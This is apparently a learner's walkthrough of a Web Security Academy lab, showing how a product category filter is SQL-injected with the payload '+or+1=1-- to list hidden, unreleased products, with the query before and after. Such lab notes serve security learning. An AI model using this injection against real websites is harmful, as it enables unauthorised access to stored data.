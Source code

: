 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

SQL injection -> in product category filter

provided SQL query 
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve: perform a SQL injection attack that causes the application to display all unreleased products


given website: https://0a0c00510463539f8262e499001e0025.web-security-academy.net/

- On clicking on any product
https://0a0c00510463539f8262e499001e0025.web-security-academy.net/product?productId=15

- On clicking on catogory
https://0a0c00510463539f8262e499001e0025.web-security-academy.net/filter?category=Accessories

- When the URL is changed with ' then url becomes https://0a0c00510463539f8262e499001e0025.web-security-academy.net/filter?category=%27

%27 is the URL encoded form of '

- The SQL query becomes
```
SELECT * FROM products WHERE category = '' AND released = 1
```

- When visited to corporate gifts we can see url as
https://0a0c00510463539f8262e499001e0025.web-security-academy.net/filter?category=Corporate+gifts

which means there is + sign to add space between

- So, we can use space to add our own query as '+or+1=1-- to check if it works and the sql query will be
```
SELECT * FROM products WHERE category = '' OR 1=1-- AND released = 1 ```
- `--` here in the query is used to comment out the rest of the query that means the query released = 1 is commented out and the query becomes

The method of adding '+or+1=1-- worked and the lab 1 is solved


